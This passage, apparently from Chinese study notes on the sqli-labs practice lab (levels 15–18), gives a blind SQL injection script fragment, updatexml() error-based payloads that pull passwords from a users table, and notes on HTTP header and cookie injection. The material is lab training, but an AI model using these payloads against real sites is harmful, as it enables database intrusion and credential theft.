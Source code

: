 ```
data_payload = "select group_concat(table_name)from information_schema.tables where table_schema = database()"
value = 1460     # 根据正确访问和错误访问时返回页面文本长度的不同 来设置一个判断值，这个值需要在浏览器中 按f12 查看
 
length = get_length(value) +1
get_data(length,value)
print(result)
```

### 16

与15相同，修改闭合方式。

### 17

对uname进行了很强的过滤，所以把坑位利用放password上，可以使用报错注入（updatexml()\extractvalue()）

最后爆值的时候报错：

```
uname=admin&passwd=admin' and updatexml(1,concat(0x7e,(select group_concat(password) from users),0x7e),1) # &submit=Submit
```



> You can't specify target table 'users' for update in FROM clause
>
> **错误原因：** 在同一个语句中，不能先查询表中的值再update这个表，可以先把查询出的值作为一个派生表，然后在这个派生表里面再次进行查询。

修改select为两层

```
uname=admin&passwd=11'  and  updatexml(1,concat(0x7e,(select password from (select password from users where username='admin') mingzi ),0x7e),1) #&submit=Submit
```







### 18

http头部报错注入

burpsuit进行抓包/hackbar也行，对头部进行修改。

```
Accept : 浏览器能够处理的内容类型
Accept-Charset : 浏览器能够显示的字符集
Accept-Encoding : 浏览器能处理的压缩编码
Accept-Language : 浏览器当前设置的语言
Connection : 浏览器与服务器之间的连接
cookie : 当前页面设置的cookie
Host : 发出请求的页面所在域
Referer : 发出请求的页面URL
User-agent : 浏览器用户代理字符串
Server : web服务器表明自己是什么软件及版本信息
###
HTTP 头注入是指从HTTP头中获取数据，而未对获取到的数据进行过滤，从而产生的注入。HTTP头注入常常发生在程序采集用户信息的模块中。例如
X-Forwarded-For/Client-IP 用户IP
User-Agent 用户代理的设备信息
Referer 告诉服务器该网页是从哪个页面链接过来的
Cookie  标识用户的身份信息
Cookie型注入是通过Cookie进行数据提交的，其常见的情况有验证登录、$_REQUEST获取参数。验证登录是将用户的登录信息放入Cookie来做权限验证的一种方法
```

